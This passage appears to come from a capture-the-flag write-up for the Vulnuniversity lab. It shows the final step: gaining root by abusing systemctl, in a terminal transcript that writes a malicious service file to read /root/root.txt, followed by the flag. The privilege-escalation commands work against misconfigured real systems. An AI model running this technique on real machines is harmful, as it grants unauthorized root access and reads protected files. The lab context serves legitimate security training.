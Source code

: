 2. Become root and get the last flag (/root/root.txt)
Curtosy of GTFOBins, we can leverage `systemctl` to run commands as root like this:
```bash
www-data@vulnuniversity:/$ TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/root_flag"
[Install]
WantedBy=multi-user.target' > $TFTF=$(mktemp).service
www-data@vulnuniversity:/$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/root_flag"
> [Install]
>
WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/$ /bin/systemctl link $TF
/bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.DVrMPStkHt.service to /tmp/tmp.DVrMPStkHt.service.
www-data@vulnuniversity:/$ /bin/systemctl enable --now $TF
/bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.DVrMPStkHt.service to /tmp/tmp.DVrMPStkHt.service.
www-data@vulnuniversity:/$ cat /tmp/root_flag
cat /tmp/root_flag
a58ff8579f0a9270368d33a9966c7fd5
www-data@vulnuniversity:/$
```
